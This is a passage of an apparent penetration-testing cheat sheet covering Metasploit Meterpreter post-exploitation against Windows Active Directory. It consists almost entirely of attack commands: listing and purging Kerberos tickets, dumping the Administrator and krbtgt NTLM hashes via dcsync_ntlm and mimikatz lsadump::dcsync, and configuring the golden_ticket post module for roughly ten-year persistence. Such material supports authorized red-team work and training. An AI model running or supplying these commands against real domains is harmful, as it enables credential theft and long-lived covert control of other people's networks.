 - You can see the same golden ticket has been imported.

```
msf > klist

meterpreter > kerberos_ticket_list
```

- Purge the golden tickets

`meterpreter > kerberos_ticket_purge`

- **Using dcsync_ntlm**

```
meterpreter > dcsync_ntlm Administrator

meterpreter > dcsync_ntlm krbtgt

meterpreter > dcsync_ntlm <username>
```

- **You can execute mimikatz commands**

```
meterpreter > kiwi_cmd '"lsadump::dcsync /user:administrator"'

meterpreter > kiwi_cmd '"lsadump::dcsync /user:krbtgt"'

meterpreter > kiwi_cmd '"lsadump::dcsync /user:<username>"'
```

#### 1.3.2 - Modules

##### 1.3.2.1 - Post

- Create a golden ticket for persistence

```
msf exploit(multi/handler) > use post/windows/escalate/golden_ticket

msf post(windows/escalate/golden_ticket) > options

Module options (post/windows/escalate/golden_ticket):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DOMAIN                        no        Target Domain
   Domain SID                    no        Domain SID
   END_IN       87608            yes       End in ... Duration in hours, default 10 YEARS (~87608 hours)
   GROUPS                        no        ID of Groups (Comma Separated)
   ID                            no        Target User ID
   KRBTGT_HASH                   no        KRBTGT NTLM Hash
   SESSION                       yes       The session to run this module on
   USE          false            yes       Use the ticket in the current session
   USER                          no        Target User

msf post(windows/esclate/golden_ticket) > set krbtgt_hash <nt_hash>

msf post(windows/esclate/golden_ticket) > set domain <domain_name>

msf post(windows/esclate/golden_ticket) > set domain sid <domain_sid>
```
